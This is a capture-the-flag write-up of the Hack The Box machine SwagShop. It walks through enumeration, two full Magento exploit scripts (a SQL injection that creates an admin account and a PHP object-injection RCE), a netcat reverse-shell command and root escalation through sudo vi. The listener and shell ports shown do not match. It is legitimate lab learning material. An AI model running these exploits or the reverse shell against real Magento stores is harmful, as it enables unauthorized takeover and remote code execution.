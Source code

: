 #+TITLE: SwagShop HTB WriteUp
#+AUTHOR: MattiaCossu

* Enumeration
Let's start the work with check scan if the hosts is up
#+BEGIN_SRC bash
  nmap -sn 10.10.10.140    
  Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-12-15 19:19 EST
  Nmap scan report for swagshop.htb (10.10.10.140)
  Host is up (0.034s latency).
  Nmap done: 1 IP address (1 host up) scanned in 0.04 seconds
#+END_SRC

Now we can try other type of scan for enumerate the ports
#+BEGIN_SRC bash
  udo nmap -sC -sV 10.10.10.140
  Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-12-15 19:14 EST
  Nmap scan report for 10.10.10.140
  Host is up (0.036s latency).
  Not shown: 998 closed tcp ports (reset)
  PORT   STATE SERVICE VERSION
  22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
  | ssh-hostkey: 
  |   2048 b6:55:2b:d2:4e:8f:a3:81:72:61:37:9a:12:f6:24:ec (RSA)
  |   256 2e:30:00:7a:92:f0:89:30:59:c1:77:56:ad:51:c0:ba (ECDSA)
  |_  256 4c:50:d5:f2:70:c5:fd:c4:b2:f0:bc:42:20:32:64:34 (ED25519)
  80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
  |_http-server-header: Apache/2.4.29 (Ubuntu)
  |_http-title: Did not follow redirect to http://swagshop.htb/
  Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

  Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
  Nmap done: 1 IP address (1 host up) scanned in 8.81 seconds
#+END_SRC

Now we can add the domanains to our ~/etc/hosts~ and open the browser.
** HTTP\ 80
We should find more info so we run ~whatweb~
#+BEGIN_SRC bash
  <SNIP>

[ Magento ]
        Opensource ecommerce platform written in PHP 

        {:name=>"Meta keywords", :certainty=>100}
        {:certainty=>100}
        {:name=>"cookie called frontend", :certainty=>100}
        Google Dorks: (2)
        Website     : http://www.magentocommerce.com

[ Modernizr ]
        Modernizr adds classes to the <html> element which allow 
        you to target specific browser functionality in your 
        stylesheet. You don't actually need to write any Javascript 
        to use it. [JavaScript] 

        {:certainty=>100}
        Website     : http://www.modernizr.com/

[ Prototype ]
        Javascript library 

        {:name=>"js tag", :certainty=>100}

[ Script ]
        This plugin detects instances of script HTML elements and 
        returns the script language/type. 

        {:certainty=>100}
        String       : text/javascript
        {:certainty=>100, :string=>["text/javascript"]}

[ Scriptaculous ]
        Javascript library 

        {:certainty=>100}

[ X-Frame-Options ]
        This plugin retrieves the X-Frame-Options value from the 
        HTTP header. - More Info: 
        http://msdn.microsoft.com/en-us/library/cc288472%28VS.85%29.
        aspx

        String       : SAMEORIGIN
        {:certainty=>100, :string=>"SAMEORIGIN"}

HTTP Headers:
        HTTP/1.1 200 OK
        Date: Sat, 16 Dec 2023 00:35:41 GMT
        Server: Apache/2.4.29 (Ubuntu)
        Set-Cookie: frontend=50euiiu1usongv06n297uam2c1; expires=Sat, 16-Dec-2023 01:35:41 GMT; Max-Age=3600; path=/; domain=swagshop.htb; HttpOnly
        Expires: Thu, 19 Nov 1981 08:52:00 GMT
        Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
        Pragma: no-cache
        X-Frame-Options: SAMEORIGIN
        Vary: Accept-Encoding
        Content-Encoding: gzip
        Content-Length: 3423
        Connection: close
        Content-Type: text/html; charset=UTF-8
#+END_SRC

As we can se the host run ~Magento~ a very vulnarble CMS for E-Commerce.

Now we can search some exploit.
#+BEGIN_SRC bash
  searchsploit Magento         
  ------------------------------------------------------------------ ---------------------------------
   Exploit Title                                                    |  Path
  ------------------------------------------------------------------ ---------------------------------
  eBay Magento 1.9.2.1 - PHP FPM XML eXternal Entity Injection      | php/webapps/38573.txt
  eBay Magento CE 1.9.2.1 - Unrestricted Cron Script (Code Executio | php/webapps/38651.txt
  Magento 1.2 - '/app/code/core/Mage/Admin/Model/Session.php?login[ | php/webapps/32808.txt
  Magento 1.2 - '/app/code/core/Mage/Adminhtml/controllers/IndexCon | php/webapps/32809.txt
  Magento 1.2 - 'downloader/index.php' Cross-Site Scripting         | php/webapps/32810.txt
  Magento < 2.0.6 - Arbitrary Unserialize / Arbitrary Write File    | php/webapps/39838.php
  Magento CE < 1.9.0.1 - (Authenticated) Remote Code Execution      | php/webapps/37811.py
  Magento eCommerce - Local File Disclosure                         | php/webapps/19793.txt
  Magento eCommerce - Remote Code Execution                         | xml/webapps/37977.py
  Magento eCommerce CE v2.3.5-p2 - Blind SQLi                       | php/webapps/50896.txt
  Magento Server MAGMI Plugin - Multiple Vulnerabilities            | php/webapps/35996.txt
  Magento Server MAGMI Plugin 0.7.17a - Remote File Inclusion       | php/webapps/35052.txt
  Magento WooCommerce CardGate Payment Gateway 2.0.30 - Payment Pro | php/webapps/48135.php
  ------------------------------------------------------------------ ---------------------------------
  Shellcodes: No Results
#+END_SRC

Evrything that presents ~RCE~ as a good staff!

Posthumously, I can tell you that after time trying POCs I realized that they needed modifications and that just one for our purpose was not enough.
I will now explain the process.
At first we will use that ~xml/webapps/37977.py~
#+BEGIN_SRC python
  #!/usr/share/bin python2
  
  import requests
  import base64
  import sys

  target = "http://10.10.10.140/index.php"

  if not target.startswith("http"):
      target = "http://" + target

  if target.endswith("/"):
      target = target[:-1]

  target_url = target + "/admin/Cms_Wysiwyg/directive/index/"

  q="""
  SET @SALT = 'rp';
  SET @PASS = CONCAT(MD5(CONCAT( @SALT , '{password}') ), CONCAT(':', @SALT ));
  SELECT @EXTRA := MAX(extra) FROM admin_user WHERE extra IS NOT NULL;
  INSERT INTO `admin_user` (`firstname`, `lastname`,`email`,`username`,`password`,`created`,`lognum`,`reload_acl_flag`,`is_active`,`extra`,`rp_token`,`rp_token_created_at`) VALUES ('Firstname','Lastname','email@example.com','{username}',@PASS,NOW(),0,0,1,@EXTRA,NULL, NOW());
  INSERT INTO `admin_role` (parent_id,tree_level,sort_order,role_type,user_id,role_name) VALUES (1,2,0,'U',(SELECT user_id FROM admin_user WHERE username = '{username}'),'Firstname');
  """


  query = q.replace("\n", "").format(username="forme", password="forme")
  pfilter = "popularity[from]=0&popularity[to]=3&popularity[field_expr]=0);{0}".format(query)

  # e3tibG9jayB0eXBlPUFkbWluaHRtbC9yZXBvcnRfc2VhcmNoX2dyaWQgb3V0cHV0PWdldENzdkZpbGV9fQ decoded is{{block type=Adminhtml/report_search_grid output=getCsvFile}}
  r = requests.post(target_url,
		    data={"___directive": "e3tibG9jayB0eXBlPUFkbWluaHRtbC9yZXBvcnRfc2VhcmNoX2dyaWQgb3V0cHV0PWdldENzdkZpbGV9fQ",
			  "filter": base64.b64encode(pfilter),
			  "forwarded": 1})
  if r.ok:
      print "WORKED"
      print "Check {0}/admin with creds forme:forme".format(target)
  else:
  print "DID NOT WORK"
#+END_SRC

#+BEGIN_SRC bash
  python2 xml/webapps/37977.py
  WORKED
  Check http://10.10.10.140/index.php/admin with creds forme:forme
#+END_SRC

and in second with this credential we can use that ~php/webapps/37811.py~ but whit a simple modify
#+BEGIN_SRC bash
  #!/usr/share/bin python2
  
  from hashlib import md5
  import sys
  import re
  import base64
  import mechanize


  def usage():
      print "Usage: python %s <target> <argument>\nExample: python %s http://localhost \"uname -a\""
      sys.exit()


  if len(sys.argv) != 3:
      usage()

  # Command-line args
  target = sys.argv[1]
  arg = sys.argv[2]

  # Config.
  username = 'forme'
  password = 'forme'
  php_function = 'system'  # Note: we can only pass 1 argument to the function
  install_date = 'Wed, 08 May 2019 07:23:09 +0000'  # This needs to be the exact date from /app/etc/local.xml

  # POP chain to pivot into call_user_exec
  payload = 'O:8:\"Zend_Log\":1:{s:11:\"\00*\00_writers\";a:2:{i:0;O:20:\"Zend_Log_Writer_Mail\":4:{s:16:' \
	    '\"\00*\00_eventsToMail\";a:3:{i:0;s:11:\"EXTERMINATE\";i:1;s:12:\"EXTERMINATE!\";i:2;s:15:\"' \
	    'EXTERMINATE!!!!\";}s:22:\"\00*\00_subjectPrependText\";N;s:10:\"\00*\00_layout\";O:23:\"'     \
	    'Zend_Config_Writer_Yaml\":3:{s:15:\"\00*\00_yamlEncoder\";s:%d:\"%s\";s:17:\"\00*\00'     \
	    '_loadedSection\";N;s:10:\"\00*\00_config\";O:13:\"Varien_Object\":1:{s:8:\"\00*\00_data\"' \
	    ';s:%d:\"%s\";}}s:8:\"\00*\00_mail\";O:9:\"Zend_Mail\":0:{}}i:1;i:2;}}' % (len(php_function), php_function,
										       len(arg), arg)
  # Setup the mechanize browser and options
  br = mechanize.Browser()
  #br.set_proxies({"http": "localhost:8080"})
  br.set_handle_robots(False)

  request = br.open(target)

  br.select_form(nr=0)
  # br.form.new_control('text', 'login[username]', {'value': username})  # Comment that
  br.form.fixup()
  br['login[username]'] = username
  br['login[password]'] = password

  br.method = "POST"
  request = br.submit()
  content = request.read()

  url = re.search("ajaxBlockUrl = \'(.*)\'", content)
  url = url.group(1)
  key = re.search("var FORM_KEY = '(.*)'", content)
  key = key.group(1)

  request = br.open(url + 'block/tab_orders/period/7d/?isAjax=true', data='isAjax=false&form_key=' + key)
  tunnel = re.search("src=\"(.*)\?ga=", request.read())
  tunnel = tunnel.group(1)

  payload = base64.b64encode(payload)
  gh = md5(payload + install_date).hexdigest()

  exploit = tunnel + '?ga=' + payload + '&h=' + gh

  try:
      request = br.open(exploit)
  except (mechanize.HTTPError, mechanize.URLError) as e:
  print e.read()
#+END_SRC

we will get an unstable shell that we should immediately change to a reverse shell.

_Listner Kali_
#+BEGIN_SRC bash
  python3 -m pwncat -lp 7777
#+END_SRC

_Unstable shell_
#+BEGIN_SRC bash
  python2 php/webapps/37811.py http://swagshop.htb/index.php/admin "busybox nc 10.10.14.3 6666 -e sh"
#+END_SRC
* PE
inside the car using ~sudo -l~ we realize that something is wrong.
#+BEGIN_SRC bash
  (remote) www-data@swagshop:/home/haris$ sudo -l 
  Matching Defaults entries for www-data on swagshop:
      env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

  User www-data may run the following commands on swagshop:
  (root) NOPASSWD: /usr/bin/vi /var/www/html/*
#+END_SRC

We can run _vi,_ as the ~root~ user, in the ~/var/www/html/*~ folder and for those who know ~vi~ or ~vim~ know that is a problem because of the existence of the ~:sh~ ~:shell~ commands so run:
#+BEGIN_SRC bash
  (remote) www-data@swagshop:/home/haris$ sudo vi /var/www/html/api.php 
#+END_SRC

Type ESC ~:shell~ and the game is done!
#+BEGIN_SRC bash
  root@swagshop:/home/haris# id
  uid=0(root) gid=0(root) groups=0(root)
#+END_SRC
